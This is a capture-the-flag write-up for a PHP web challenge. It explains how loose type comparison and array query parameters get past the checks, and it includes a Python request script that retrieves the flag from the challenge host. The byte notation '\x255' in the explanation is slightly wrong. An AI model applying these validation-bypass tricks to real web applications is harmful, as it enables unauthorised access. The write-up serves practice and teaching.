 ## TW.edu CTF 2015: Mission-3

---------------------------------------
**Category:** web **Points:** 100 **Solves:**  **Description:**

> Snoopy give you some missions.
> If you can finish them, he will give you flags.

**mission3.php**
```php
 <?php
show_source(__FILE__);

$lv1 = 0; $lv2 = 0; $lv3 = 0;

$a = @$_GET['arg1'];
if (!is_array($a))
{
    $lv1 = 1;
    for ($i = 0; $i < 256; $i++)
        $lv1 &= ord($a[$i]) == $i;
}

$a = @$_GET['arg2'];
if (is_array($a))
{
    $lv2 |= @$a[1] === $a[2];
    $lv3 |= @(!is_numeric($a[0]) && $a[0] >= 217);
}


echo "lv1: $lv1<br>";
echo "lv2: $lv2<br>";
echo "lv3: $lv3<br>";

if ($lv1 && $lv2 && $lv3){
    include "flag.php";
    echo $flag_3;
}
lv1: 0
lv2: 0
lv3: 0
```
### Solution
It is trivial that `$_GET[arg1]` must be a 256-byte string as `"\x00\x01...\x255"`, and `$_GET[arg2]` must be an array as `[?, x, x]`. Furthermore, the `?` is not numeric and >= 217. `"1234p"` is obviously not numeric, but due to the looseness of PHP, `"1234p" >= 217`.

Therefore we can construct a payload satisfying these conditions.

**exploit.py**
```python
import requests

arg1 = ''.join([chr(i) for i in xrange(256)])
arg2 = ['1234p', 0, 0]
payload = {
            'arg1'  :   arg1,
            'arg2[]'  :   arg2, # this [] is very important!
            }

r = requests.get("http://mission.cebrusfs.com/mission3.php", params=payload)
print r.text
```
and we get the flag